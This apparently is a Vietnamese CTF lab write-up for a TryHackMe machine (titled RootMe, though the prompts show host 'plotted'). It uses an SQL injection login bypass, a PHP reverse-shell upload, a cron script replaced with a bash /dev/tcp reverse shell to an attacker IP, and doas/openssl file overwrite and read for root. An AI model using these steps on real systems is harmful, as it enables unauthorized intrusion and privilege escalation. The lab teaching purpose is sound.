# [THM] RootMe write-up

- IP: 10.10.76.27

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.76.27



Có 3 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 80 và 445 chạy dịch vụ HTTP 

Ta thấy port 80 và 445 đều chạy dịch vụ http và đều có giao diện là default page apache2 nên tiếp tục scan bằng công cụ fuff để tìm thư mục ẩn 
> ffuf -u "http://10.10.76.27/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt


Ta nhận thấy có các thư mục ẩn `/admin`,`/passwd`,`/shadow` cùng kiểm tra các thư mục đó

Tìm thấy file id_rsa trong thư mục `/admin` có nội dung như hình ảnh bên dưới. Có thể đoán được là chuỗi này đã được mã hóa bởi thuật toán nào đó, ta sẽ thử thuật toán phổ biến nhất đó là base64 xem có gì không



Chúng ta đã đoán đúng nó được mã hóa bằng base64 nhưng kết quả nhận được lại hơi thất vọng

Kiểm tra thư mục `/passwd`,`/shadow` có chung nội dung và khi giải mã nội dung tương tự như trên


Vậy thì ta sẽ tiếp tục scan với port 445
> ffuf -u "http://10.10.76.27:445/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt


Ta đã phát hiện ra thư mục ẩn `/management`

Giao diện thư mục ẩn `/management`


Phát hiện ra trang `/login` ta sẽ thử attack vào các ô input với các lỗ hổng cơ bản như XSS hay SQLi


## Exploit
Sau khi thử thì đã thành công với SQLi payload `admin'or 1=1-- -` và mật khẩu bất kì ta có thể truy cập vào dashboard của administrator


Khi tìm kiếm thì nhận ra avatar của admin có thể được upload lên mà không hề lọc những file có thể thực thi mã nguồn, tận dụng điều này ta sẽ up file reverse shell lên để chiếm quyền shell của user web này. Sau khi tạo **netcat lister** và upload file `shell.php` thì ta đã vào được user **www-data**



## user.txt
Hiện tại đã tìm được file `user.txt` nhưng với user **www-data** không có quyền read file này vậy chúng ta cần tìm cách truy cập vào user có quyền xem được file này



Sau khi kiểm tra và thấy crontab được config chạy file backup.sh với quyền của user `plot_admin` vậy nên ta sẽ tạo 1 file backup.sh giả mạo để có thể truy cập shell với quyền user trên



```sh
www-data@plotted:/var/www/scripts$ mv backup.sh backup2.sh
mv backup.sh backup2.sh
www-data@plotted:/var/www/scripts$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.21.113.26/4321 0>&1' > backup.sh
www-data@plotted:/var/www/scripts$ chmod +x backup.sh
chmod +x backup.sh
www-data@plotted:/var/www/scripts$ ls
ls
backup.sh  backup2.sh
www-data@plotted:/var/www/scripts$ cat backup.sh
cat backup.sh
#!/bin/bash

bash -i >& /dev/tcp/10.21.113.26/4321 0>&1
www-data@plotted:/var/www/scripts$ 
```

Sau khi đợi cron run ta đã có shell với quyền user `plot_admin` vậy giờ ta đã có thể lấy được flag trong user.txt



## Privilege escalation
> find / -perm -4000 -type f 2>/dev/null
Để kiểm tra tệp tin nào có thể được thực thi với quyền SUID bất thường không và đã nhận ra `/usr/bin/doas`



Nhận thấy rằng **doas** là một chương trình thay thế cho **sudo** vì vậy ta sẽ kiểm tra config xem nó có gì đặc biệt không



Openssl được cho phép chạy với quyền sudo mà không cần mật khẩu, ta sẽ tìm cách leo thang đặc quyền thông qua nó tham khảo [GTFOBINS](https://gtfobins.github.io/gtfobins/openssl/)

Sau khi thử để leo thang đặc quyền với việc ghi đè file /etc/passwd không thành công, điều này tôi vẫn chưa rõ xảy ra vấn đề gì nhưng hiện tại ta sẽ tìm phương án khác
```sh
plot_admin@plotted:~$ LFILE=/etc/passwd
LFILE=/etc/passwd
plot_admin@plotted:~$ echo "root::0:0:root:/root:/bin/bash" | doas -u root openssl enc -out "$LFILE"
</bin/bash" | doas -u root openssl enc -out "$LFILE"
plot_admin@plotted:~$ su root
su root
Password: 
su: Authentication failure
```

Ta sẽ đọc file thông qua file read



## root.txt

> doas -u root openssl enc -in /root/root.txt


